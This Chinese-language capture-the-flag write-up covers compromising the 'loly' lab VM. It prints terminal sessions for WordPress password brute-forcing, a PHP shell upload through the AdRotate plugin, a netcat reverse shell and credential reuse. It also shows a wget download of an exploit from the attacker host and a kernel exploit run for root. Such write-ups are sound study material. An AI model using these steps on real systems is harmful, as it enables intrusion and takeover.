






# loly
## 信息收集
### NMAP
```
└─$ sudo nmap -p- 192.168.146.73                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-26 14:48 HKT
Nmap scan report for 192.168.146.73
Host is up (0.00023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:2A:9D:25 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.06 seconds
                                                                                                      
┌──(aaron㉿aacai)-[~/Desktop/loly-192.168.146.73]
└─$ sudo nmap -p80 -sV -A 192.168.146.73
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-26 14:48 HKT
Nmap scan report for 192.168.146.73
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:2A:9D:25 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 192.168.146.73

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds

```
### DIRSEARCH
```
└─$ dirsearch -u "http://192.168.146.73"                                                                                

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.146.73/_22-07-26_14-51-13.txt

Error Log: /home/aaron/.dirsearch/logs/errors-22-07-26_14-51-13.log

Target: http://192.168.146.73/

[14:51:13] Starting: 
[14:51:53] 200 -    7KB - /wordpress/wp-login.php
[14:51:53] 200 -   28KB - /wordpress/

Task Completed
                                                                                                                            
┌──(aaron㉿aacai)-[~/Desktop/loly-192.168.146.73]
└─$ 

```
## Web信息收集

查看到wordpress界面之后, 还有很多部分的信息还没加载出来, 查看一下源码

发现有一个域名地址, 加入到/etc/hosts里面
```
└─$ cat /etc/hosts        
127.0.0.1	localhost
127.0.1.1	aacai
192.168.146.73 loly.lc
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

### WORDPRESS信息收集
```
└─$ sudo wpscan  --url "http://loly.lc/wordpress/"
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://loly.lc/wordpress/ [192.168.146.73]
[+] Started: Tue Jul 26 15:07:30 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2022-02-16T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.3
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2022-07-20T01:45:00.000Z
 | [!] The version is out of date, the latest version is 5.8.26
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==========================================================================> (137 / 137) 100.00% Time: 00:00:00

```
#### 试试使用wpscan的密码爆破
```
[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

[+] Performing password attack on Xmlrpc against 2 user/s
Trying loly / alabama Time: 00:00:14 <======================================================================================================> (2048 / 2048) 100.00% Time: 00:00:14

[i] No Valid Passwords Found.

```
并没有爆破到密码, 但是loly这个用户是存在的
#### 尝试找到插件版本
```
┌──(aaron㉿aacai)-[~/Desktop]
└─$ sudo wpscan  --url "http://loly.lc/wordpress/" --enumerate ap --plugins-detection aggressive   
[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2022-07-20T01:45:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt
 | [!] The version is out of date, the latest version is 5.8.26
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/, status: 200
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] akismet
 | Location: http://loly.lc/wordpress/wp-content/plugins/akismet/
 | Last Updated: 2022-07-11T15:41:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 4.2.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.1.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/akismet/readme.txt

```
#### 搜索是否有版本漏洞
```
└─$ searchsploit adrotate                                                                       
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin AdRotate 3.6.5 - SQL Injection                                                                                                 | php/webapps/17888.txt
WordPress Plugin AdRotate 3.6.6 - SQL Injection                                                                                                 | php/webapps/18114.txt
WordPress Plugin AdRotate 3.9.4 - 'clicktracker.ph?track' SQL Injection                                                                         | php/webapps/31834.txt
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                  
┌──(aaron㉿aacai)-[~/Desktop]
└─$ searchsploit akismet 
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities                                                                        | php/webapps/37902.php
WordPress Plugin Akismet 2.1.3 - Cross-Site Scripting                                                                                           | php/webapps/30036.html
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```
并没有结果
#### 使用更大的密码本跑密码
```
└─$ sudo wpscan  --url "http://loly.lc/wordpress/" -U loly -P '/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt' 
...
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                       
Trying loly / fernando Time: 00:00:14 <=                                                                                                   > (1815 / 101815)  1.78%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```
跑出来了密码

登录上来有一个邮箱, 先记下来
*Current administration email: loly@mail.com*
### 文件上传

发现adrotate

查看描述说: Zip文件会被自动解压到目录, 并且原来的zip文件会被删除
上传一个shell.php.zip

访问后获得www-data权限
```
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.73] 40500
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 00:48:23 up  1:00,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 3: python: not found
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@ubuntu:/$ 

```
### 提权
使用linpeas.sh获取有用的信息
```
漏洞信息
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

╔══════════╣ Analyzing Other Interesting Files (limit 70)
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 loly loly 3771 Aug 19  2020 /home/loly/.bashrc


-rw-r--r-- 1 root root 655 Jun 24  2016 /etc/skel/.profile
-rw-r--r-- 1 loly loly 655 Aug 19  2020 /home/loly/.profile


-rw-r--r-- 1 loly loly 0 Aug 19  2020 /home/loly/.sudo_as_admin_successful

发现mysql密码
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 loly www-data 3014 Aug 20  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
define( 'DB_HOST', 'localhost' );

```
### 尝试使用脏牛提权
```
www-data@ubuntu:/tmp$ wget http://192.168.146.50/dirtycow/dirty.c
wget http://192.168.146.50/dirtycow/dirty.c
--2022-07-26 01:00:43--  http://192.168.146.50/dirtycow/dirty.c
Connecting to 192.168.146.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-csrc]
Saving to: 'dirty.c'

dirty.c             100%[===================>]   4.70K  --.-KB/s    in 0s      

2022-07-26 01:00:43 (1.12 GB/s) - 'dirty.c' saved [4815/4815]
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@ubuntu:/tmp$ locate cc1
提示找不到cc1
定位cc1然后导入到环境变量
www-data@ubuntu:/tmp$ locate cc1
locate cc1
/etc/ssl/certs/6fcc125d.0
/lib/modules/4.4.0-31-generic/kernel/drivers/iio/adc/cc10001_adc.ko
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
www-data@ubuntu:/tmp$ PATH="$PATH":/usr/lib/gcc/x86_64-linux-gnu/5/   
PATH="$PATH":/usr/lib/gcc/x86_64-linux-gnu/5/
www-data@ubuntu:/tmp$ export PATH
export PATH
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
再执行编译命令就可以了
www-data@ubuntu:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: Aaron****
Complete line:
firefart:fiHwEAfAjnAvk:0:0:pwned:/root:/bin/bash

mmap: 7fcefe668000

但是实测... 用脏牛打了之后虚拟机崩溃了
换思路
```
### 尝试其他用户登录
```
刚刚获取了数据库的密码
不知道用户的密码是不是一样的
www-data@ubuntu:/$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/$ id 
id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
loly@ubuntu:/$ sudo -l
sudo -l
[sudo] password for loly: lolyisabeautifulgirl

Sorry, user loly may not run sudo on ubuntu.
loly@ubuntu:/$ 
确实能登录, 但是用户不能使用sudo
查看一下用户的bash_history
loly@ubuntu:~$ cat .bash_history
cat .bash_history
sudo -l
id
su root
cd /var/www/html
ls
rm -r latest.zip 
cd wordpress/
ls
cat wp-config.php 
more wp-config.php 
passwd
sudo vim /etc/sudoers
su root
sudo vim /etc/shadow
sudo passwd root
su root
loly@ubuntu:~$ 
无果
```
#### 查看内核版本
```
loly@ubuntu:~$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.1 LTS
Release:	16.04
Codename:	xenial
loly@ubuntu:~$ uname -a
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
loly@ubuntu:~$ 
可以看到是ubuntu 16.04的, 并且内核版本为4.4.0
```
##### 搜索漏洞
```
└─$ searchsploit ubuntu 4.4.0                     
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                                                            | linux/dos/43234.c
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation                                                | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                                                                                            | linux/dos/41457.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                                                                             | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Privilege Escalation                                         | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Condition Privilege Escalation                                     | windows_x86-64/local/47170.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                   | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                                          | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                               | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                           | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)                       | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escalation                                                          | linux/local/41760.txt
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
这里正好有Ubuntu 16.04的本地提权的漏洞
copy到本地然后靶机使用wget下载
└─$ searchsploit -m linux/local/45010.c 
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
File Type: C source, ASCII text

Copied to: /home/aaron/Desktop/Script/45010.c

```
##### 成功提权
```
loly@ubuntu:~$ gcc 45010.c -o shell
gcc 45010.c -o shell
loly@ubuntu:~$ ls
ls
45010.c  cleanup.py  shell
loly@ubuntu:~$ ./shell
./shell
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003519a600
[*] Leaking sock struct from ffff880035773c00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880035eaf6c0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880035eaf6c0
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# whoami
whoami
root
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:2a:9d:25 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.73/24 brd 192.168.146.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe2a:9d25/64 scope link 
       valid_lft forever preferred_lft forever
# 
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
# 
```



